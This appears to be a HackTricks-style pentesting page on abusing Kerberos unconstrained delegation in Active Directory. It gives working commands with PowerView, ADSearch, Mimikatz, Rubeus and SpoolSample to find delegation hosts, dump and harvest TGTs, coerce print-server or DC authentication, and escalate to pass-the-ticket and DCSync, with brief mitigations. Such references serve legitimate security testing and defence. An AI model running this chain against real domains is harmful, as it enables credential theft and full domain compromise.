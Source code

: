 # Unconstrained Delegation

{{#include ../../banners/hacktricks-training.md}}

## Unconstrained delegation

This a feature that a Domain Administrator can set to any **Computer** inside the domain. Then, anytime a **user logins** onto the Computer, a **copy of the TGT** of that user is going to be **sent inside the TGS** provided by the DC **and saved in memory in LSASS**. So, if you have Administrator privileges on the machine, you will be able to **dump the tickets and impersonate the users** on any machine.

So if a domain admin logins inside a Computer with "Unconstrained Delegation" feature activated, and you have local admin privileges inside that machine, you will be able to dump the ticket and impersonate the Domain Admin anywhere (domain privesc).

You can **find Computer objects with this attribute** checking if the [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) attribute contains [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>). You can do this with an LDAP filter of ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, which is what powerview does:

<pre class="language-bash"><code class="lang-bash"># List unconstrained computers
## Powerview
Get-NetComputer -Unconstrained #DCs always appear but aren't useful for privesc
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Export tickets with Mimikatz
</strong>privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #Check every 10s for new TGTs</code></pre>

Load the ticket of Administrator (or victim user) in memory with **Mimikatz** or **Rubeus for a** [**Pass the Ticket**](pass-the-ticket.md)**.**\
More info: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**More information about Unconstrained delegation in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Force Authentication**

If an attacker is able to **compromise a computer allowed for "Unconstrained Delegation"**, he could **trick** a **Print server** to **automatically login** against it **saving a TGT** in the memory of the server.\
Then, the attacker could perform a **Pass the Ticket attack to impersonate** the user Print server computer account.

To make a print server login against any machine you can use [**SpoolSample**](https://github.com/leechristensen/SpoolSample):

```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```

If the TGT if from a domain controller, you could perform a[ **DCSync attack**](acl-persistence-abuse/#dcsync) and obtain all the hashes from the DC.\
[**More info about this attack in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**Here are other ways to try to force an authentication:**

{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### Mitigation

- Limit DA/Admin logins to specific services
- Set "Account is sensitive and cannot be delegated" for privileged accounts.

{{#include ../../banners/hacktricks-training.md}}


